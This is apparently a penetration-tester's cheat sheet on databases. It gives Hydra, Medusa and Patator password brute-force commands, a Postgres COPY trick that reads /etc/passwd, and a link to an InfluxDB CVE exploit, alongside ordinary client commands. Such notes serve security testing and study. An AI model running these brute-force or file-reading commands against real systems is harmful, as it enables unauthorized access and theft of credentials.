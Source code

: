 # 🗄️ Database

---

- [Dynamodb](#dynamodb)
- [Influx DB](#influx-db)
- [Mysql](#mysql)
- [Postgres](#postgres)
- [SQLite](#sqlite)

# Bruteforce
### Patator
```bash
patator pgsql_login user=user password=FILE1 0=/usr/share/wordlists/rockyou.txt  host=ip -x ignore:fgrep='failed'
```

### Medusa
```bash
medusa -h ip -u user -P pass.txt -M mysql -n 22
```

### Hydra
```bash
hydra -l user -P pass.txt ip mysql
```

# MySql
> Port: 3306

### Connect to mysql
```bash
mysql -h localhost -u myname -p
```

### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
```

### Select
```sql
SELECT * FROM table_name
```

# SQLite
### Open
```bash
sqlite3 database.sqlite3
```
or open in vs code

### Show info
```
.databases
.tables
```

# Postgres
> Port: 5432

### Wordlist Default Credentials
```path
/usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
/usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
```

### Connect
```bash
psql -h ip -U username -d database -W
```

### Show infos
```
\l # list all databases
\dt # list all tables
```

### Read File
```sql
create table hack(file TEXT);
COPY hack FROM '/etc/passwd';
select * from hack;
```

- [PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

# Influx DB

[CVE-2019-20933 Influxdb](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```
> show databases # to display databases
> show field keys # field keys (like columns in sql)
> show measurements # to display measurements (like tables in sql)
{
  ...
  "results": [
    "values": [
        [
            <strong>"foo"</strong>
        ]
    ]
  ...
}
> select * from "foo" # display all content of measurments (table) 'foo' (keep the doubles quotes)
```

# Dynamodb

See [this page](../wiki/Cloud.md)